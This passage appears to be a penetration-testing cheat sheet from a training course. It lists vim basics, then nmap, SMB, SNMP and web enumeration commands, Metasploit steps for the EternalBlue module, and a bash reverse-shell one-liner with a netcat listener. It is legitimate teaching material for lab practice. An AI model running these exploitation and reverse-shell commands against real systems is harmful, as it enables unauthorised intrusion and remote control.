 | `:1`                     | vim: Go to line number 1.            |
| `:w`                     | vim: Write the file 'i.e. save'      |
| `:q`                     | vim: Quit                            |
| `:q!`                    | vim: Quit without saving             |
| `:wq`                    | vim: Write and quit                  |

### Pentesting

| **Command**                                                                           | **Description**                                                       |
| ------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| **Service Scanning**                                                                  |                                                                       |
| `nmap 10.129.42.253`                                                                  | Run nmap on an IP                                                     |
| `nmap -sV -sC -p- 10.129.42.253`                                                      | Run an nmap script scan on an IP                                      |
| `locate scripts/citrix`                                                               | List various available nmap scripts                                   |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40`                                | Run an nmap script on an IP                                           |
| `netcat 10.10.10.10 22`                                                               | Grab banner of an open port                                           |
| `smbclient -N -L \\\\10.129.42.253`                                                   | List SMB Shares                                                       |
| `smbclient \\\\10.129.42.253\\users`                                                  | Connect to an SMB share                                               |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0`                            | Scan SNMP on an IP                                                    |
| `onesixtyone -c dict.txt 10.129.42.254`                                               | Brute force SNMP secret string                                        |
| **Web Enumeration**                                                                   |                                                                       |
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`        | Run a directory scan on a website                                     |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website                                    |
| `curl -IL https://www.inlanefreight.com`                                              | Grab website banner                                                   |
| `whatweb 10.10.10.121`                                                                | List details about the webserver/certificates                         |
| `curl 10.10.10.121/robots.txt`                                                        | List potential directories in `robots.txt`                            |
| `ctrl+U`                                                                              | View page source (in Firefox)                                         |
| **Public Exploits**                                                                   |                                                                       |
| `searchsploit openssh 7.2`                                                            | Search for public exploits for a web application                      |
| `msfconsole`                                                                          | MSF: Start the Metasploit Framework                                   |
| `search exploit eternalblue`                                                          | MSF: Search for public exploits in MSF                                |
| `use exploit/windows/smb/ms17_010_psexec`                                             | MSF: Start using an MSF module                                        |
| `show options`                                                                        | MSF: Show required options for an MSF module                          |
| `set RHOSTS 10.10.10.40`                                                              | MSF: Set a value for an MSF module option                             |
| `check`                                                                               | MSF: Test if the target server is vulnerable                          |
| `exploit`                                                                             | MSF: Run the exploit on the target server is vulnerable               |
| **Using Shells**                                                                      |                                                                       |
| `nc -lvnp 1234`                                                                       | Start a `nc` listener on a local port                                 |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                                 | Send a reverse shell from the remote server                           |
